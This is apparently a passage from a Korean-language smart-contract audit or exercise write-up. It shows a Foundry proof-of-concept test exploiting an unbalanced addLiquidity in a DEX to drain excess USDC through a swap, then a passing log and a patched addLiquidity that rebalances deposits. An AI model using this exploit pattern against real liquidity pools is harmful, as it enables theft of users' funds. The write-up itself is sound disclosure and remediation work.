 #### PoC

```solidity
function testManyETH() external {
        dex.addLiquidity(4000000 ether, 1000 ether, 0);
        vm.startPrank(user1);
        uint lp = dex.addLiquidity(8000000 ether, 1 wei, 0);
        uint outputUSDC = dex.swap(0, 1000 ether, 0);
        console.log("outputUSDC: %d", outputUSDC);
        console.log("1000*4000: %d", 1000 * 4000 ether);
        vm.stopPrank();
    }
```

```solidity
[PASS] testManyETH() (gas: 295920)
Logs:
  outputUSDC: 5996998499249624812403203
  100*4000: 4000000000000000000000000
```

결과적으로 기존에 슬리피지를 제외하고 swap해서 얻을 수 있는 가격과도 비교가 안될 만큼 많은양의 USDC를 얻을 수 있게 된다.

#### 해결 방안

```solidity
function addLiquidity(uint256 tokenXAmount, uint256 tokenYAmount, uint256 minimumLPTokenAmount) public returns (uint256 LPTokenAmount){
    require(tokenXAmount > 0, "Less TokenA Supply");
    require(tokenYAmount > 0, "Less TokenB Supply");
    require(tokenX.allowance(msg.sender, address(this)) >= tokenXAmount, "ERC20: insufficient allowance");
    require(tokenY.allowance(msg.sender, address(this)) >= tokenYAmount, "ERC20: insufficient allowance");
    uint256 liqX; //liquidity of x
    uint256 liqY; //liquidity of y
    amountX = tokenX.balanceOf(address(this));// token X amount udpate
    amountY = tokenY.balanceOf(address(this));// token Y amount update
    
    if(totalSupply_ ==0 ){ //if first supply 
        LPTokenAmount = _sqrt(tokenXAmount*tokenYAmount);
    }
    else{// calculate over the before
        liqX = _mul(tokenXAmount ,totalSupply_)/amountX;
        liqY = _mul(tokenYAmount ,totalSupply_)/amountY;
        LPTokenAmount = (liqX<liqY) ? liqX:liqY; 
        **if(LPTokenAmount == liqY){
            tokenXAmount = amountX * tokenYAmount / amountY;
        }else{
            tokenYAmount = amountY * tokenXAmount / amountX;
        }**
    }
    require(LPTokenAmount >= minimumLPTokenAmount, "Less LP Token Supply");
    transfer_(msg.sender,LPTokenAmount);
    totalSupply_ += LPTokenAmount;
    amountX += tokenXAmount;
    amountY += tokenYAmount;
    tokenX.transferFrom(msg.sender, address(this), tokenXAmount);
    tokenY.transferFrom(msg.sender, address(this), tokenYAmount);
    return LPTokenAmount;
}
```
